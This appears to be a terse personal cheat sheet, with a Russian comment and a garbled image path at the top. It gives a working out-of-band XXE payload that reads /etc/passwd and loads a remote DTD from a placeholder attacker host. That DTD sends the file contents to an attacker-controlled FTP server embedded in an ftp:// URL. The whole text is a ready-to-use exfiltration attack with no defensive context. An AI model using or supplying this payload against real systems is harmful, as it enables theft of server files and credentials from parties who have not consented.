 # ftp_for_xxe
```
<?xml version="1.0"?>
<!DOCTYPE data [ 
 <!ENTITY % file SYSTEM "file:///etc/passwd"> содержание этого файла придет в качестве запроса на ftp сервер
 <!ENTITY % dtd SYSTEM "http://your.host/remote.dtd"> 
%dtd;]>
<data>&send;</data>
```

http://your.host/remote.dtd (https://webhook.site)

```
<?xml version="1.0" encoding="UTF-8"?>
<!ENTITY % all "<!ENTITY send SYSTEM 'ftp://test:%file;@{ftp_ip}:{ftp_port}/'>"> %all;
```
